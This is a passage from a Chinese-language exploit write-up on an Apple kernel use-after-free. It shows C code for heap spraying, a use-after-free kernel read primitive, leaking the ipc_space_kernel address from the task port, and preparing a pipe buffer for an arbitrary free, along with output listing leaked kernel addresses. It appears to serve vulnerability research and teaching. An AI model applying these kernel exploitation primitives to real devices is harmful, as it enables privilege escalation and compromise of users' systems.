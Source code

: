 ```c
	total_arrays += array_count;
	return true;
}
```

堆喷的细节就分析到这里，所以在利用中，我们构造好堆喷数据和长度之后，就可以调用函数`rk64_via_uaf()`进行堆喷操作

```c
uint64_t rk64_via_uaf(uint64_t addr) {
    void *buf = read_20_via_uaf(addr);
    if (buf) {
        uint64_t r = *(uint64_t*)buf;
        free(buf);
        return r;
    }
    return 0;
}
```

我们在上一步已经获取了`Task Port`的内核态地址，根据结构体偏移，我们可以获取到`IPC_SPACE`的内核地址

```c
uint64_t ipc_space_kernel = rk64_via_uaf(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_RECEIVER));
if (!ipc_space_kernel) {
    printf("[-] kernel read primitive failed!\n");
    goto err;
}
printf("[i] ipc_space_kernel: 0x%llx\n", ipc_space_kernel);
```

获取一下数据

```
[i] our task port: 0xfffffff001c3cc38
[i] ipc_space_kernel: 0xfffffff000a22fc0
```

## 6. 任意释放Pipe Buffer

Pipe管道是一个可以用于跨进程通信的机制，它会在内核缓冲区开辟内存空间进行数据的读写，`fds[1]`用于写入数据，`fds[0]`用于读取数据

比如现在读写下标在`0`的位置，我们写入`0x10000`字节，那么下标就会移动到`0x10000`，当我们读取`0x10000`字节的时候，下标就会往回移动到`0`

最后一句写`8`字节到缓冲区里是为了用于后面的堆喷操作可以用构造的数据填充这片缓冲区，可以直接读取`8`字节的数据

```c
int fds[2];
ret = pipe(fds);
uint8_t pipebuf[0x10000];
memset(pipebuf, 0, 0x10000);
write(fds[1], pipebuf, 0x10000); // do write() to allocate the buffer on the kernel
read(fds[0], pipebuf, 0x10000); // do read() to reset buffer position
write(fds[1], pipebuf, 8); // write 8 bytes so later we can read the first 8 bytes
```
